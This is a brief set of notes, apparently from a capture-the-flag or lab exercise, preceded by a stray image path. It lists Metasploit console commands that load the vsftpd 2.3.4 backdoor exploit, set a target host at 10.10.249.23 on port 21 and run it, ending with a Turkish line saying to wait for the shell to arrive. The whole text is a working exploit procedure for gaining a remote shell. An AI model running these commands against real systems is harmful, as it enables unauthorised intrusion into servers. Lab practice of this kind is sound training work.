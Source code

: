 msfconsole


search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.249.23
set RPORT 21
run 
daha sonra shell in gelmesini bekle 

